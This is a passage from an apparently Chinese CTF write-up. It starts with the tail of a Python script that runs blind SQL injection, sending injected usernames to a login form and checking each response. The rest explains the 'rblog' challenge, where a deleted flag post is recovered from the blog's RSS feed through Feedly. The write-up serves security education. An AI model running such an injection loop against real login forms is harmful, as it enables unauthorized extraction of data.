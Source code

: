 ```
		print sql
		data = {"username":sql,"password":"p","_xsrf":csrf}
		rr = s.post(url,data=data)
		
		if 'Login' in rr.text:
			print i
				# result+=i
				# break

		# print result

test()
```

# rblog #

```
 There is no flaw in the source code. Think about other attack surface. If you have built your own blog, you will know where the flag is. 

https://static2017.teamrois.cn/web_ad7148fcda06df35821c298c2c766ef5/rblog_10df92e9d4ed73e4fa18ed2a7c67f38a.zip

https://blog.cal1.cn
```

hint也是一大把
```
There was a post on the blog containing the flag you want, but it has been deleted before the CTF starts. How will you find it back?


This challenge has nothing to do with social engineering or the writeups inside. What's the most common third party service related to personal blogs?
```

一个比较有趣的web题目，因为整个问题是我自己亲身经历过的，有一次在比赛还在check阶段的时候不小心把比赛的wp发到了blog上，后来被提醒就撤下了文章...结果无意间发现，blog中的文章虽然没了，但是rss阅读器却在我第一次更新的时候，就记录下了文章，并且在我删除文章之后，rss阅读器仍然保留了这部分。

所以看到hint很快就能想到这个，blog本身没有问题，flag是在比赛开始之前被删除了，问题在于blog的一个组件上。

于是在feedly上订阅
```
https://blog.cal1.cn/feed
```

就能拿到flag了，这里有个坑是，如果订阅
```
https://blog.cal1.cn/static/atom.xml
```

是没用的，feedly并不认为这两个是同一个源

![image.png-160.6kB][5]


  [1]: http://static.zybuluo.com/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: http://static.zybuluo.com/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: http://static.zybuluo.com/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: http://static.zybuluo.com/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: http://static.zybuluo.com/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: http://static.zybuluo.com/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: http://static.zybuluo.com/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: http://static.zybuluo.com/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: http://static.zybuluo.com/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: http://static.zybuluo.com/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: http://static.zybuluo.com/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: http://static.zybuluo.com/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png